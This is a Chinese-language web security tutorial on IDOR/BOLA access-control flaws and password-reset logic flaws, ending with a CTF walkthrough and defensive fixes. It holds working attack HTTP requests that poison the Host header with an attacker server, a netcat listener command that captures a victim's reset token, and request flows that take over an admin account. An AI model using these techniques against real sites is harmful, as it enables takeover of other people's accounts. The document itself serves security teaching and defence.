


# 🚪 越权访问控制与密码重置逻辑缺陷：BOLA/IDOR 与 Host 头投毒全链条劫持

> **业务逻辑本质**：不同于技术型漏洞（如 SQL 注入或 RCE 会触发语法报错或执行异常），**业务逻辑缺陷（Business Logic Flaws）往往完全符合编程语言本身的语法规范**。
> 应用程序代码完美无错地执行，但由于设计时对“用户身份与资源从属关系”、“操作步骤前置条件”以及“不可信外部标头”缺乏严密的数学闭环约束，攻击者得以越俎代庖，非法查看任意他人隐私数据、冒用管理员特权，甚至无条件重置接管全站任意账号！

---

## 0. 基础前置认知与小白扫盲：越权漏洞与身份冒用本质

> [!NOTE] 模块前置语言与工具清单
> - **前置通关必备**：零基础读者强烈建议先通读全局导航 **[[01-零基础入门前置指南与黑话工具字典]]**，掌握安全法律红线、终端命令行、HTTP 报文骨架与黑话字典！
> - **环境依赖**：具备基础 Web 浏览器（Chrome/Firefox）抓包认知或轻量 Python 脚本执行能力。


### 1. 水平越权 vs 垂直越权生活比喻
* **水平越权（平民看平民，IDOR）**：
  * 你是 301 房间的租客，你的查账单接口是 `/api/bill?room_id=301`；
  * 你随手把参数改成 `room_id=302`，系统竟然毫无阻拦地把 302 邻居的账单和隐私明细全部吐了出来！
  * **本质**：同级用户之间，系统缺少“当前登录人是否有权操作该对象 ID”的数据归属权校验。
* **垂直越权（平民变皇帝）**：
  * 你只是一个普通注册会员，你直接在浏览器访问 `/admin/delete_user?id=1`，系统居然真的执行了删除！
  * **本质**：高权限接口对低权限角色的拦截校验缺失。

---

### 2. 密码重置四大经典致命缺陷
1. **验证码由前端客户端校验**：后端直接把 6 位验证码下发在响应包 JSON 里，黑客抓包一眼看穿；
2. **重置凭证（Token）弱随机**：仅使用 `MD5(username + 时间戳)`，黑客用 Python 脚本几秒内精准爆破；
3. **HTTP Host 头部劫持**：找回密码邮件中的链接是根据请求头中的 `Host` 动态拼接的，黑客将 `Host` 改为自己的恶意服务器，受害者点击邮件链接直接把重置 Token 送入黑客囊中；
4. **接收者参数篡改**：在输入验证码提交时，数据包中含有 `mobile=13800000000` 参数，黑客把自己的手机号填进去，验证码就打到了黑客手机上！

---

## 一、越权漏洞全景：水平越权 (BOLA/IDOR) vs 垂直越权



### 1. 不安全的对象直接引用（IDOR / BOLA）底层成因剖析
在 RESTful API 普及后，服务端大量使用自增 ID 或固定标识符暴露资源：
```http
GET /api/v1/orders/10086 HTTP/1.1
Authorization: Bearer <User_A_Token>
```
* **脆弱后端代码实现**：
  ```php
  // 💥 致命错误：直接把客户端传入的 order_id 送入数据库查询
  $order = $db->query("SELECT * FROM orders WHERE id = ?", [$_GET['order_id']]);
  echo json_encode($order);
  ```
* **利用手法**：攻击者仅需遍历 `order_id=10087`, `order_id=10088`，即可脱裤爬取全平台所有客户的真实姓名、电话与收货地址！

---

## 二、密码重置逻辑漏洞 5 大经典攻防利用矩阵



---

### 1. 攻击面一：Host 头注入导致重置链接投毒（Password Reset Poisoning）

这是现代 Web 架构中最隐蔽、影响最大的账号劫持漏洞之一！

#### 🔍 漏洞底层触发机制：
很多 Web 应用在向用户发送“找回密码”邮件时，需要动态生成一个带有随机 Token 的点击链接。
为了适配不同的测试与生产域名，开发人员往往**直接从 HTTP 请求头中的 `Host` 或 `X-Forwarded-Host` 获取当前网站的域名**！

```php
// 脆弱代码片段
$token = generate_random_token();
// 💥 致命错误：将用户可控的 HTTP Host 请求头直接拼接入邮件链接！
$reset_url = "http://" . $_SERVER['HTTP_HOST'] . "/reset_password?token=" . $token;

send_email($user_email, "Password Reset Link", "Click here: " . $reset_url);
```

#### 攻击利用链四步法：
1. 攻击者访问找回密码页面，输入受害者管理员的账号或邮箱；
2. 抓包拦截请求，将 HTTP 请求头中的 `Host` 字段篡改为攻击者控制的恶意服务器：
   ```http
   POST /forgot_password HTTP/1.1
   Host: attacker-server.com
   Content-Type: application/x-www-form-urlencoded

   email=admin@company.com
   ```
3. 目标服务器正常处理请求，生成了合法的强随机 Token，但拼接出的邮件内容变成了：
   `http://attacker-server.com/reset_password?token=abcdef123456...`；
4. 受害者收到官方发来的真实找回密码邮件并点击该链接：
   * 受害者浏览器立即向 `attacker-server.com` 发送 HTTP GET 请求；
   * 攻击者的 Web 服务器日志**直接记录下 URL 中的完整 `token`**！
   * 攻击者拿到合法 Token，回到官方正规接口重置管理员密码，完成 100% 账号接管！

---

### 2. 攻击面二：验证码前端回显与响应泄露

* **成因**：前端开发人员为了调试方便，或者后端接口在生成短信/邮箱验证码时，将生成的验证码一同封装在发送成功的 JSON 响应中返回给客户端：
  ```http
  POST /api/send_sms HTTP/1.1
  phone=13800000000

  HTTP/1.1 200 OK
  {"code": 200, "msg": "SMS sent successfully", "debug_code": "849201"}
  ```
* 攻击者直接在 Burp Suite 响应拦截中提取 `849201`，实现零成本任意登录！

---

### 3. 攻击面三：验证码无频控暴力破解

* **成因**：
  * 验证码仅为 4 位（10,000 种可能）或 6 位纯数字（1,000,000 种可能）；
  * 后端接口未对尝试失败次数做任何限制（无 IP 限制、无单账号错误冻结、未启用图形验证码二次人机拦截）；
  * 验证码有效期过长（如 15~30 分钟）。
* **利用**：使用 Burp Intruder 或多线程发包脚本，使用字典在 1~3 分钟内遍历所有数字，强行撞库成功！

---

### 4. 攻击面四：多步骤向导流程跳过（Step Skipping）

* **业务设计流程**：
  * **Step 1**：输入用户名与手机号；
  * **Step 2**：输入短信验证码校验；
  * **Step 3**：设置新密码页面（`POST /reset/step3`）。
* **脆弱逻辑**：后端在处理 `Step 3` 时，**仅仅根据提交的 `username` 与 `new_password` 直接执行数据库更新操作，根本没有在 Session 中校验该用户是否真的成功完成了 `Step 2` 的短信认证！**
* **利用**：攻击者注册一个普通账号走完全流程，记录 `Step 3` 的请求格式；随后直接发包请求 `Step 3`，仅修改其中的 `username=admin`，直接绕过短信验证！

---

## 三、CTF 实战靶场案例复现（Host 头注入劫持管理员夺旗）

### 靶场情境：受保护的内部管理平台找回密码功能

靶场要求获取管理员账号 `admin@ctf.local` 登录后台拿到 Flag，主页提供“邮件找回密码”功能。

#### 1. 抓取找回密码 HTTP 请求
```http
POST /api/request_reset.php HTTP/1.1
Host: secure.ctf.local:8080
Content-Type: application/x-www-form-urlencoded
Content-Length: 26

user=admin%40ctf.local
```

#### 2. 测试 Host 请求头篡改
将 `Host` 头修改为攻击者可控的公网监听地址（或使用内置接收器）：
```http
POST /api/request_reset.php HTTP/1.1
Host: 10.10.14.2:9999
Content-Type: application/x-www-form-urlencoded
Content-Length: 26

user=admin%40ctf.local
```
* **服务器响应**：
  ```http
  HTTP/1.1 200 OK
  Content-Type: application/json

  {"status":"ok","msg":"Password reset email has been dispatched to admin@ctf.local"}
  ```

#### 3. 模拟管理员点击并捕获 Token
在攻击者终端（`10.10.14.2`）开启网络监听器：
```bash
nc -lvnp 9999
```
几秒钟后，靶机内置的邮件模拟机器人点击邮件链接，监听器收到回显请求：
```http
Connection from 10.10.10.5:43912
GET /reset_password.php?token=7f9b8c0d1e2a3f4b5c6d7e8f9a0b1c2d HTTP/1.1
Host: 10.10.14.2:9999
User-Agent: Mozilla/5.0 HeadlessChrome/108.0
```
成功精准捕获到管理员专属的真实重置令牌：
`token=7f9b8c0d1e2a3f4b5c6d7e8f9a0b1c2d`！

#### 4. 提交重置密码并夺旗
向官方真实的重置接口发送修改密码请求：
```http
POST /reset_password.php HTTP/1.1
Host: secure.ctf.local:8080
Content-Type: application/x-www-form-urlencoded

token=7f9b8c0d1e2a3f4b5c6d7e8f9a0b1c2d&password=PwnedPassword123!
```
响应重置成功！使用新密码登录 `admin@ctf.local`，进入后台拿到最终 Flag：
`flag{h0st_h34d3r_p01s0n1ng_p4ssw0rd_r3s3t_pwn}`！

---

## 四、安全加固与防御最佳实践

1. **绝对禁止动态依赖 `Host` 头构建绝对 URL**：
   * 在服务配置文件中将系统基础域名硬编码（如 `APP_URL=https://secure.company.com`）；
   * 生成邮件链接时始终使用固定的配置常量：
     ```php
     // ✅ 安全实践
     $reset_url = config('app.url') . "/reset?token=" . $token;
     ```
2. **强制实施两维度所有权校验（防范 BOLA/IDOR）**：
   * 数据查询时必须绑定当前会话用户 ID：
     ```sql
     -- ✅ 安全查询
     SELECT * FROM orders WHERE id = :order_id AND user_id = :session_user_id;
     ```
3. **验证码强风控机制**：
   * 采用 6 位密码学强随机验证码，有效时间压缩在 5 分钟内；
   * 单一账号或单一 IP 连续输错 3 次即刻锁定该会话，并强制要求滑动人机验证码校验；
   * 一次性使用原则：验证码校验成功后立即在 Redis/Session 中标记销毁，防止重复提交。
4. **多步骤流程严格状态机绑定**：
   * 在 Session 中设置明确的流程阶段标识（如 `$_SESSION['reset_step'] = 2`），每一步骤接口均严格校验前序状态标志位，杜绝跳步发包。

---

## 🔗 相关双向链接
- 上级模块：[[09-认证授权与业务逻辑漏洞]]
- 身份认证：[[01-JWT原理与攻击面（空加密none、密钥爆破、公私钥混淆、JWK注入）]]
- 并发竞争：[[02-条件竞争（Race Condition）与并发发包实战]]
- 下一章节：[[10-Java安全高阶与内存马/01-Servlet, Filter, Listener 传统组件内存马注入]]
- 知识地图：[[00-Web安全与CTF知识地图总览]]
